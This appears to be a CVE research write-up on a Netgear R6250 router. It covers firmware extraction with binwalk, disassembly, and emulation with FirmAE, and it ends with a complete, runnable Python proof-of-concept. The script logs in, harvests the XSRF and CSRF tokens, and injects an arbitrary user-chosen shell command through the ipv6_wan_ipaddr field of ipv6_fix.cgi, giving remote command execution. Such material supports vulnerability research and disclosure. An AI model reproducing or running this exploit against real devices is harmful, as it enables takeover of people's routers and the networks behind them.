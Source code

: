 # Install binwalk
The following are all usage in ubuntu20.  
sudo apt-get install binwalk  (No need to install binwalk from github, apt installation is enough)  

# Firmware download
https://www.netgear.com/support/download/?model=R6250


# How to use binwalk
binwalk -Me R6250-V1.0.4.48_10.1.30.chk  

# Enter the decompressed target file
![Alt text](1695739702323.png)

# View the elf you want to analyze
![Alt text](1695739963962.png)

# View elf's associated library
![Alt text](1695740072546.png)

# Disassemble target firmware via ghidra or ida pro
![Alt text](1695740172809.png)
For details on static analysis, see:https://github.com/D2y6p/CVE/blob/main/Netgear/CVE-2023-33532/Netgear_R6250_RCE.pdf  

# Use firmae to emulate firmware
https://github.com/pr0v3rbs/FirmAE
![Alt text](1695740493888.png)

# Configure username and password
Log in to 192.168.1.1 (remember to turn off vpn) and configure username and password

# Use simplified POC
<pre>
#!/usr/bin/python3

import requests
import base64
import re

target = input("Enter Target IP : ")
username = input("Enter Target username : ")
passwd = input("Enter Target passwd : ")
cmd = input("Enter you want cmd : ")

username_passwd = username + ":" + passwd
auth = base64.b64encode(username_passwd.encode('utf-8')).decode("utf-8")
print(auth)

#request 1 : get XSRF_TOKEN
burp0_url = "http://" + target + ":80/IPV6_fixed.htm"
burp0_cookies = {"XSRF_TOKEN": "2267229739"}
burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/112.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Authorization": "Basic 123123", "Connection": "close",  "Upgrade-Insecure-Requests": "1"}
response1 = requests.get(burp0_url, headers=burp0_headers, cookies=burp0_cookies)

if 'Set-Cookie' in response1.headers:
    set_cookie = response1.headers['Set-Cookie']
    print(f'The Set-Cookie value is: {set_cookie}')
else:
    print('No Set-Cookie field in the response header')

pattern = r'(?<=\=)([^;]*)'
XSRF_TOKEN = re.findall(pattern, set_cookie)[0]
print(XSRF_TOKEN)

#request 2 : get csrf_id
burp0_cookies = {"XSRF_TOKEN": XSRF_TOKEN}
burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/112.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Authorization": "Basic " + auth, "Connection": "close", "Upgrade-Insecure-Requests": "1"}
response2 = requests.get(burp0_url, headers=burp0_headers, cookies=burp0_cookies)
pattern = r'cgi\?id=([\w\d]+)'
csrf_id = re.search(pattern, response2.text).group(1)
print("csrf_id is :" + csrf_id)

#request 3 : send payload
burp0_url = "http://" + target + ":80/ipv6_fix.cgi?id=" + csrf_id
burp0_data = {"apply": "Apply", "login_type": "Fixed", "ipv6_wan_ipaddr": "$(" + cmd + ")","ipv6_proto": "fixed"}
burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/112.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Content-Type": "text/plain", "Origin": "http://" + target, "Authorization": "Basic " + auth, "Connection": "close", "Upgrade-Insecure-Requests": "1"}

response3 = requests.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, data=burp0_data)

print('end!!!')
</pre>

# View Results
![Alt text](1695740815602.png)